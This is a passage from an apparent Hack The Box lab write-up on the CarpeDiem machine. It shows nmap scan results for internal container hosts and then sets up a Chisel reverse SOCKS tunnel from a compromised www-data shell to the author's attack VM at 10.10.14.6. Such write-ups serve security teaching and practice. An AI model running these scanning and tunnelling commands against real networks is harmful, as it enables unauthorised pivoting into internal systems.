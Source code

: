 ```
443/tcp open  https

Nmap scan report for mysql (172.17.0.3)
Host is up (0.00034s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
3306/tcp  open  mysql
33060/tcp open  unknown

Nmap scan report for 172.17.0.4
Host is up (0.00034s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown

Nmap scan report for 172.17.0.5
Host is up (0.00012s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
8118/tcp open  unknown

Nmap scan report for 3c371615b7aa (172.17.0.6)
Host is up (0.00012s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 6 IP addresses (6 hosts up) scanned in 21.00 seconds

```

#### Tunnel with Chisel

At this point it’s worth uploading [Chisel](https://github.com/jpillora/chisel) to get a proxy into this network (though it’s possible to complete CarpeDiem without this). I’ll host it with Python, and the upload it with `wget`. Then I’ll start the server on my VM:

```

oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
2022/11/28 21:04:03 server: Reverse tunnelling enabled
2022/11/28 21:04:03 server: Fingerprint QgJndP8XXAYGo7Jf2+vSTSFH4iAa+tNYtrbWrm82J4k=
2022/11/28 21:04:03 server: Listening on http://0.0.0.0:8000

```

And I’ll connect from the container:

```

www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:socks 
2022/11/28 21:05:25 client: Connecting to ws://10.10.14.6:8000
2022/11/28 21:05:25 client: Connected (Latency 86.893335ms)

```
